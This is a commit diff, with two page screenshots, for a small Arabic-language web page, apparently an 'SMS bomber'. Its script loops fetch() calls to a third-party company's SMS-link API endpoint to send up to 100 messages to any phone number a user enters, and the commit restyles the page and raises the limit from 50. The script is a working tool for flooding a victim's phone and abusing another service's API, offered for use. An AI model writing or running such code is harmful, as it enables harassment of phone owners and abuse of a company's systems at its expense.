

Before and after one commit to IFEAMM/sms, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 91-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,20 +2,59 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <title>أداة إرسال الرسائل</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>SMS Sender</title>
     <style>
-        body { font-family: sans-serif; padding: 20px; }
-        .container { max-width: 400px; margin: auto; }
-        input { width: 100%; margin-bottom: 10px; padding: 8px; }
-        button { width: 100%; padding: 10px; background: blue; color: white; border: none; cursor: pointer; }
+        body {
+            background-color: #0f172a; /* أزرق داكن جداً */
+            color: #ffffff;
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+        }
+        .card {
+            background-color: #1e293b; /* أزرق داكن فاتح قليلاً للكارد */
+            padding: 25px;
+            border-radius: 15px;
+            box-shadow: 0 4px 15px rgba(0,0,0,0.3);
+            width: 90%;
+            max-width: 400px;
+        }
+        h2 { text-align: center; margin-bottom: 20px; }
+        input {
+            width: 100%;
+            padding: 12px;
+            margin-bottom: 15px;
+            border: none;
+            border-radius: 8px;
+            box-sizing: border-box; /* لضمان عدم خروج الحواف */
+            background-color: #334155;
+            color: white;
+        }
+        button {
+            width: 100%;
+            padding: 12px;
+            background-color: #3b82f6; /* أزرق زاهي للزر */
+            color: white;
+            border: none;
+            border-radius: 8px;
+            font-weight: bold;
+            cursor: pointer;
+            transition: background 0.3s;
+        }
+        button:hover { background-color: #2563eb; }
+        #status { text-align: center; margin-top: 15px; font-size: 0.9em; }
     </style>
 </head>
 <body>
 
-<div class="container">
-    <h2> SMS</h2>
-    <input type="text" id="phone" placeholder="أدخل رقم الجوال بدون 0">
-    <input type="number" id="count" placeholder="عدد الرسائل" min="1" max="50">
+<div class="card">
+    <h2>إرسال الرسائل</h2>
+    <input type="text" id="phone" placeholder="رقم الجوال (مثال: 55xxxxxxx)">
+    <input type="number" id="count" placeholder="عدد الرسائل" min="1" max="100">
     <button onclick="startSending()">بدء الإرسال</button>
     <p id="status"></p>
 </div>
@@ -23,11 +62,11 @@
 <script>
     async function startSending() {
         const phone = document.getElementById('phone').value;
-        const count = document.getElementById('count').value;
+        const count = parseInt(document.getElementById('count').value);
         const status = document.getElementById('status');
 
         if (!phone || !count) {
-            alert("يرجى تعبئة الحقول!");
+            alert("يرجى تعبئة جميع الحقول");
             return;
         }
 
@@ -35,14 +74,13 @@
 
         for (let i = 0; i < count; i++) {
             try {
-                // الرابط المذكور
                 await fetch(`https://prodokd.maanaginx.com/care/api/user/sendLinksSMS/${phone}`);
-                console.log(`تم إرسال الرسالة رقم ${i + 1}`);
+                status.innerText = `تم إرسال ${i + 1} من ${count}`;
             } catch (error) {
-                console.error("خطأ في الإرسال", error);
+                console.error("فشل الإرسال", error);
             }
         }
-        status.innerText = "تم الانتهاء من العمليات.";
+        status.innerText = "تمت العملية بنجاح! ✅";
     }
 </script>
 
```
